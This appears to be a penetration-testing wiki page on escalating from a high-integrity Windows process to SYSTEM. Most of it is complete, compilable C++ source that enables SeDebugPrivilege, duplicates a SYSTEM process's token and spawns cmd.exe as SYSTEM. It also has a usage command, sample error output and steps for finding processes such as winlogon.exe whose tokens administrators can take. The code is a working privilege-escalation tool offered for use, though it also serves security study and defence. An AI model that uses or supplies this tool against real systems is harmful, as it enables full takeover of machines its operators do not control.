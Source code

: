 # SeImpersonate from High To System

## Code

The following code was copied from [here](https://medium.com/@seemant.bisht24/understanding-and-abusing-access-tokens-part-ii-b9069f432962). It allows to **indicate a Process ID as argument** and a CMD **running as the user** of the indicated process will be run.  
Running in a High Integrity process you can **indicate the PID of a process running as System** \(like winlogon, wininit\) and execute a cmd.exe as system.

```cpp
impersonateuser.exe 1234
```

{% code title="impersonateuser.cpp" %}
```cpp
#include <windows.h>
#include <iostream>
#include <Lmcons.h>
BOOL SetPrivilege(
    HANDLE hToken,          // access token handle
    LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
    BOOL bEnablePrivilege   // to enable or disable privilege
)
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    if (!LookupPrivilegeValue(
        NULL,            // lookup privilege on local system
        lpszPrivilege,   // privilege to lookup
        &luid))        // receives LUID of privilege
    {
        printf("[-] LookupPrivilegeValue error: %u\n", GetLastError());
        return FALSE;
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;
    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL))
    {
        printf("[-] AdjustTokenPrivileges error: %u\n", GetLastError());
        return FALSE;
    }
    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
    {
        printf("[-] The token does not have the specified privilege. \n");
        return FALSE;
    }
    return TRUE;
}
std::string get_username()
{
    TCHAR username[UNLEN + 1];
    DWORD username_len = UNLEN + 1;
    GetUserName(username, &username_len);
    std::wstring username_w(username);
    std::string username_s(username_w.begin(), username_w.end());
    return username_s;
}
int main(int argc, char** argv) {
    // Print whoami to compare to thread later
    printf("[+] Current user is: %s\n", (get_username()).c_str());
    // Grab PID from command line argument
    char* pid_c = argv[1];
    DWORD PID_TO_IMPERSONATE = atoi(pid_c);
    // Initialize variables and structures
    HANDLE tokenHandle = NULL;
    HANDLE duplicateTokenHandle = NULL;
    STARTUPINFO startupInfo;
    PROCESS_INFORMATION processInformation;
    ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
    ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
    startupInfo.cb = sizeof(STARTUPINFO);
    // Add SE debug privilege
    HANDLE currentTokenHandle = NULL;
    BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &currentTokenHandle);
    if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))
    {
        printf("[+] SeDebugPrivilege enabled!\n");
    }
    // Call OpenProcess(), print return code and error code
    HANDLE processHandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, PID_TO_IMPERSONATE);
    if (GetLastError() == NULL)
        printf("[+] OpenProcess() success!\n");
    else
    {
        printf("[-] OpenProcess() Return Code: %i\n", processHandle);
        printf("[-] OpenProcess() Error: %i\n", GetLastError());
    }
    // Call OpenProcessToken(), print return code and error code
    BOOL getToken = OpenProcessToken(processHandle, MAXIMUM_ALLOWED, &tokenHandle);
    if (GetLastError() == NULL)
        printf("[+] OpenProcessToken() success!\n");
    else
    {
        printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
        printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
    }
    // Impersonate user in a thread
    BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);
    if (GetLastError() == NULL)
    {
        printf("[+] ImpersonatedLoggedOnUser() success!\n");
        printf("[+] Current user is: %s\n", (get_username()).c_str());
        printf("[+] Reverting thread to original user context\n");
        RevertToSelf();
    }
    else
    {
        printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\n", getToken);
        printf("[-] ImpersonatedLoggedOnUser() Error: %i\n", GetLastError());
    }
    // Call DuplicateTokenEx(), print return code and error code
    BOOL duplicateToken = DuplicateTokenEx(tokenHandle, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
    if (GetLastError() == NULL)
        printf("[+] DuplicateTokenEx() success!\n");
    else
    {
        printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
        printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
    }
    // Call CreateProcessWithTokenW(), print return code and error code
    BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &startupInfo, &processInformation);
    if (GetLastError() == NULL)
        printf("[+] Process spawned!\n");
    else
    {
        printf("[-] CreateProcessWithTokenW Return Code: %i\n", createProcess);
        printf("[-] CreateProcessWithTokenW Error: %i\n", GetLastError());
    }
    return 0;
}
```
{% endcode %}

## Error

On some occasions you may try to impersonate System and it won't work showing an output like the following:

```cpp
[+] OpenProcess() success!
[+] OpenProcessToken() success!
[-] ImpersonatedLoggedOnUser() Return Code: 1
[-] ImpersonatedLoggedOnUser() Error: 5
[-] DuplicateTokenEx() Return Code: 0
[-] DupicateTokenEx() Error: 5
[-] CreateProcessWithTokenW Return Code: 0
[-] CreateProcessWithTokenW Error: 1326
```

This means that even if you are running on a High Integrity level **you don't have enough permissions**.  
Let's check current Administrator permissions over `svchost.exe` processes with **processes explorer** \(or you can also use process hacker\):

1. Select a process of `svchost.exe`
2. Right Click --&gt; Properties
3. Inside "Security" Tab click in the bottom right the button "Permissions"
4. Click on "Advanced"
5. Select "Administrators" and click on "Edit"
6. Click on "Show advanced permissions"

![](../../.gitbook/assets/image%20%28353%29.png)

The previous image contains all the privileges that "Administrators" have over the selected process \(as you can see in case of `svchost.exe` they only have "Query" privileges\)

See the privileges "Administrators" have over `winlogon.exe`:

![](../../.gitbook/assets/image%20%28354%29.png)

Inside that process "Administrators" can "Read Memory" and "Read Permissions" which probably allows Administrators to impersonate the token used by this process.

